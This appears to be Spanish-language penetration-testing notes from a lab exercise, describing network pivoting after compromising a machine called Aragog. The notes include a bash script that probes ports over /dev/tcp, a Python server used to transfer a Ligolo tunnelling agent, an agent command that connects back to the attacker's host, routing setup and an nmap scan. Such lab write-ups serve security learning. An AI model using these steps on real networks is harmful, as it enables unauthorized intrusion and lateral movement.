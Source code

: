 #Aragog
[[192.168.1.23 (Aragog)]]
- Pwned

En el directorio `/tmp` creamos un fichero llamo `hostDiscovery.sh` que nos permitirá hacer un reconocimiento de red sobre esa interfaz para encontrar host activos:
El script lo que hace directamente es buscar sobre las IP que respondan a una llamada y tengan puertos activos.
```shell
#!/bin/bash

# Función para escanear puertos de un host activo
scan_host() {
    local host=$1
    for port in 21 22 80 443 445 8080; do
        # Intenta conectarse al puerto con timeout
        timeout 1 bash -c "echo > /dev/tcp/$host/$port" &>/dev/null && \
            echo "[+] Host $host - PORT $port - OPEN"
    done
}

# Capturar Ctrl+C para salir limpio
trap "echo -e '\n[*] Escaneo interrumpido'; exit" SIGINT

for i in $(seq 1 254); do
    host="10.10.0.$i"
    # Comprobar si el host está activo
    if ping -c 1 -W 1 $host &>/dev/null; then
        echo "[*] Host $host activo. Escaneando puertos..."
        scan_host $host
    fi
done
```

Lo ejecutamos y nos dará la otra ip que se ve desde nuestra interfaz de red [[10.10.0.4 (Aragog)]]
Vemos que hay una IP del otro lado que es la `10.10.0.5`

Usaremos `Ligolo` para hacer la tunelización el agent tiene que ir en la maquina victima y el proxy en la maquina atacante 

El agent lo transferimos a la maquina victima a través de Python
`python3 -m http.server 80`

Deberemos ejecutar el proxy en nuestra maquina atacante con:
`./proxy -selfcert `

Y en la maquina victima el agent con:
`./agent -connect 192.168.1.19:11601 -ignore-cert`

En ligolo seleccionamos la sesión con `session` y le damos al Intro
Ejecutamos el comando `start` para que se inicie el tunelizado hacia la maquina victima [[10.10.0.4 (Aragog)]]

Tendremos que añadir la ruta a nustra maquina atacante para poder tener conexion con ella:
`sudo ip route add 10.10.0.0/24 dev ligolo`

Una vez hallamos conseguido el tunelizado haremos un scaneo con [[NMAP]] para ver los puertos abiertos:
`nmap -sT -Pn --top-ports 500 --open -T5 -v -n 10.10.0.5 `







